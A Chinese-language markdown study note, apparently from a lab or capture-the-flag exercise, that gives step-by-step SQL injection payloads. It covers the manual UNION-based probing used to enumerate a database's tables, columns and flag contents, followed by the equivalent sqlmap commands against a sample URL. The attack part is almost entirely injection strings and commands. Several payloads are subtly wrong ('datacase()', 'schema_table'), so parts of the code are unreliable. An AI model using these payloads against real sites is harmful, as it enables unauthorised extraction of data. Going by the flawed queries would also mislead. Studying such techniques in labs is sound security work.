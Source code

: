 # SQL注入记录

## 手工注入方式：
* 总体思路：
![](https://i.loli.net/2018/11/29/5bfec0620331e.png)

1. 判断注入点：
* 网址会带入参数查询
![](https://i.loli.net/2018/11/29/5bfec11078f1d.png)
* 网址后面加入 `'`网页报错；
![](https://i.loli.net/2018/11/29/5bfec2a2d5788.png)
   网址后面加入`and 1=1`网页不报错；
   
![](https://i.loli.net/2018/11/29/5bfec11025275.png)
   网址后面加入`and 1=2`网页报错
   
![](https://i.loli.net/2018/11/29/5bfec10ec019a.png)
   说明该页面存在注入点，可以进行下一步
   
 2. 猜解列数：
 网址后加入`order by 10`采用二分法，一步步猜解
 
![](https://i.loli.net/2018/11/29/5bfec119c0b1d.png)
![](https://i.loli.net/2018/11/29/5bfec10fc19a6.png)
![](https://i.loli.net/2018/11/29/5bfec15a324e6.png)
 3. 猜解数据所值啊位置：
网址后加入`and 1=2 union select 1,2,3`数字为上一步猜解的列数
![](https://i.loli.net/2018/11/29/5bfec15da0ea6.png)
4. 猜解单个数据库名字：
网址后加入`and 1=2 union select 1,2,datacase()`
![](https://i.loli.net/2018/11/29/5bfec15eb2784.png)
5. 猜解猜解表名：
网址后加入`and 1=2 union select 1,2,table_name from information_schema.tables where schema_table=database()`
![](https://i.loli.net/2018/11/29/5bfec15543389.png)

6. 猜解多个数据表名字：
网址后加入`and 1=2 union select 1,2,group_concat(table_name) from information_schema.tables where schema_table=database()`
==group_concat()==聚合查询多个结果
![](https://i.loli.net/2018/11/29/5bfec164c0a43.png)
7. 猜解列名：
`and 1=2 union select 1,2,column_name from information_schema.columns where schema_table=database()`
![](https://i.loli.net/2018/11/29/5bfec16747b1b.png)
8. 猜解内容：
`and 1=2 union select 1,type,value from flag_normal`
![](https://i.loli.net/2018/11/29/5bfec16bba13b.png)

## 工具(sqlmap)注入方式：
1. 判断是否存在注入点
`sqlmap -u “http://www.aaa.com:1234/pentest/sql/1.php?id=1”`
![](https://i.loli.net/2018/11/29/5bfec16b14445.png)
2. 猜解数据库名字
`sqlmap -u “http://www.aaa.com:1234/pentest/sql/1.php?id=1” --dbs --batch`
![](https://i.loli.net/2018/11/29/5bfec1735f55e.png)
3. 猜解数据表名字
`sqlmap -u “http://www.aaa.com:1234/pentest/sql/1.php?id=1” -D lab --tables --batch`
![](https://i.loli.net/2018/11/29/5bfec171382b4.png)
4. 猜解列名
`sqlmap -u “http://www.aaa.com:1234/pentest/sql/1.php?id=1” -D lab -T flag_normal --columns --batch`
![](https://i.loli.net/2018/11/29/5bfec176960c0.png)
5. 猜解内容
`sqlmap -u “http://www.aaa.com:1234/pentest/sql/1.php?id=1” -D lab -T flag_normal -C flag --dump`
![](https://i.loli.net/2018/11/29/5bfec1748209e.png)


